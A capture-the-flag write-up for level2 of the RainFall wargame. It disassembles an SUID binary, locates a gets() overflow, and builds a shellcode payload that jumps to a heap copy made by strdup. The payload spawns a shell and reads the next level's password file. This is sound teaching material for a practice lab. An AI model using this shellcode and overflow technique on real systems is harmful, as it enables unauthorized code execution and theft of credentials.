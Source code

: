 After running the command `ls -l level2`, we observe the following output:

```
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```

From this output, we can see that the binary `level2` is set with **SUID (Set User ID)** and **SGID (Set Group ID)** permissions. This means:

- The `s` in the owner (`rws`) and group (`r-s`) permission bits indicates that the program will run with the privileges of its owner (`level3`) and group (`users`), regardless of who executes it.
- In other words, when any user runs this program, it will execute as if it were run by the `level3` user.

## Debugging
### simple 
```
level2@RainFall:~$ ./level2 
hello world
hello world

```
After running ./level2, we found that it opens stdin to read input, and whatever input is provided, such as hello world, it will print it.

### with gdb (peda)
Now, let's debug the binary using GDB:  
```bash
gdb level2
b main  
disassemble  
```
**Output:** 
```
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
=> 0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret    
End of assembler dump.
```
We see in the assembly that it calls the function p. Let's discover what p does.
```
disassemble p
```
**output:*
```
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
```
### Analysis of Function `p`

#### **Identifying the Buffer Overflow**
The function `p` contains a call to `gets` at:
```assembly
0x080484ed <+25>:	call   0x80483c0 <gets@plt>
```
The `gets` function is inherently dangerous because it does not check for buffer size limits, allowing for a buffer overflow.

but The function then performs a check on a value stored at `[ebp-0xc]`:
```assembly
0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]  ; Load stored value
0x080484fb <+39>:	and    eax,0xb0000000          ; Mask upper bits
0x08048500 <+44>:	cmp    eax,0xb0000000          ; Compare with 0xb0000000
0x08048505 <+49>:	jne    0x8048527 <p+83>        ; If different, continue normal execution
```
This appears to be a form of **stack protection**, checking whether a certain **high address bit pattern** is present. This suggests that if an attacker overwrites `[ebp-0xc]` with an address in the `0xb0000000` region (which is typically used for **mapped memory, kernel space, or protection flags**), execution is **aborted via `_exit()`**.


#### **Bypassing the Protection**
The goal is to **bypass the stack check and execute arbitrary code**. Since the function later calls:
```assembly
0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
```
The `strdup` function **allocates memory using `malloc`** and returns a pointer to the newly allocated memory in the **heap**. This memory is **not checked** against the stack protection mechanism.

#### **Exploitation Strategy**
1. **Overflow the buffer** to control the **saved return address**.
2. **Redirect execution to `strdup`'s return address**.
3. Since `malloc` allocates memory in the heap, a payload in the heap can be used to **bypass the stack protection check**.

## **Exploitation**

### Finding the Buffer Offset
To make exploitation easier, we use **PEDA** (Python Exploit Development Assistance for GDB) to determine the buffer offset. After several attempts, we found that **80 bytes** overwrite the saved EIP. We can verify this by injecting 80 "A" characters followed by "BBBB" (hex `0x42424242`):

```bash
gdb-peda$ r < <(python -c 'print("A"*80 + "BBBB")')
```

Output:
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
**Register output:**
[----------------------------------registers-----------------------------------]
EAX: 0x804a008 ('A' <repeats 64 times>, "BBBB", 'A' <repeats 12 times>, "BBBB")
EBX: 0xb7fd0ff4 --> 0x1a4d7c 
ECX: 0x0 
EDX: 0xbffff6dc ('A' <repeats 64 times>, "BBBB", 'A' <repeats 12 times>, "BBBB")
ESI: 0x0 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff730 --> 0x8048500 (<p+44>: cmp eax,0xb0000000)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x210282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```

As seen from the output, the **EIP** register has been successfully overwritten with `0x42424242` (`"BBBB"`), confirming that the buffer overflow is functioning correctly.

### Finding the Address in Heap
Next, we need to find the address of the shellcode. To do this, we can use **ltrace**:

```bash
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20) = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5) = 0xbffff70c
puts("") = 1
strdup("") = 0x0804a008
+++ exited (status 8) +++
```

From the output of `ltrace`, we observe that `strdup` returns the address `0x0804a008`.

### Constructing the Payload
The payload consists of the following parts:
1. The shellcode:
   ```
   "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
   ```
2. Padding (to fill the buffer up to the return address offset), which is `80 - 28 = 52` "A" characters.
3. The address of the heap (`0x0804a008`).

The final exploit payload is:

```python
python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 52 + "\x08\xa0\x04\x08")'
```

### Running the Exploit
We can then pipe the payload into the vulnerable program:

```bash
level2@RainFall:~$ (python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * (80-28) + "\x08\xa0\x04\x08")'; cat) | ./level2 
1�Ph//shh/bin����°
                  1�@̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
cat /home/user/level3/.pass            
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

```